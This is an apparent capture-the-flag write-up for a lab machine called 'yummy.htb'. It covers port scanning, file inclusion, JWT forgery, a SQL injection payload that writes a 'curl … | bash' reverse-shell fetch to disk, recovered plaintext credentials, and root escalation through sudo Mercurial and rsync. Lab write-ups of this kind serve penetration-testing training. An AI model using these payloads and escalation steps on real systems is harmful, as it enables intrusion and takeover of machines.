A full TCP port scan was performed to identify exposed services on the target.
nmap -sVC -p- --open -sS --min-rate 5000 -v -n --stats-every=5s -Pn -oN yummy_scan <IP>The scan revealed a web service running on the target.

Browsing the main page showed both Login and Register functionalities.

Technology fingerprinting was performed using whatweb, revealing that the site uses Caddy as the web server along with Bootstrap and other common web technologies.
http://yummy.htb/ [200 OK] Bootstrap, Caddy, HTML5
A new user account was registered to interact with the application.

After logging in, a table reservation feature was used.

The request responsible for exporting data was intercepted using Burp Suite.
Upon inspection, the export functionality was found to be vulnerable to a Local File Inclusion (LFI).


An alternative attack vector involved intercepting the JWT token by capturing the login request when accessing /admindashboard.
The token was decoded using jwt.io.

A vulnerability was identified in the n variable within the token.

A forged JWT was crafted with administrator privileges.

Replacing the original token with the forged one granted access to the admin dashboard.

Within the admin dashboard, a script named app_backup.sh referenced a ZIP archive located at /var/www/backupapp.zip.


The archive was downloaded and extracted, revealing database credentials.

db_config = {
'host': '127.0.0.1',
'user': 'chef',
'password': '3wDo7gSRZIwIHRxZ!',
'database': 'yummy_db'
}
The admin dashboard URL was found to be vulnerable to SQL injection.


The injection was leveraged to write files to disk using INTO OUTFILE.
Example payload:
http://yummy.htb/admindashboard?s=aa&o=ASC;
select "curl 10.10.X.X/reverse.sh | bash;"
INTO OUTFILE '/data/scripts/fixer-v___';


This resulted in a shell as the MySQL user.
To pivot to www-data, a reverse shell was created and renamed as app_backup.sh, which was executed automatically.


A reverse shell as www-data was successfully obtained.

Within /var/www/, an interesting directory containing application data and a ZIP file was discovered.

Inside /app-qatesting/.hg/store/data, the file app.py.i was found.
This file contained plaintext credentials for the qa and chef users.


Using the recovered credentials, access as the qa user was obtained.

The user flag was found in the /home/qa/ directory.

For persistence, an SSH key pair was generated using ssh-keygen.

Checking sudo permissions revealed that the qa user could execute Mercurial (hg) commands as the dev user.

A malicious Mercurial configuration was created in /tmp to trigger a reverse shell.


The .hgrc file was modified to execute a reverse shell script.

The reverse shell script was created and made executable.

chmod 777 revshell.shExecuting the allowed sudo command spawned a shell as the dev user.

Running sudo -l as dev showed that rsync could be executed as root.

The rsync command was abused to copy a SUID-enabled bash binary into a root-owned directory.

Finally, the privileged bash binary was executed to gain a root shell.
sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/ && /opt/app/bash -p
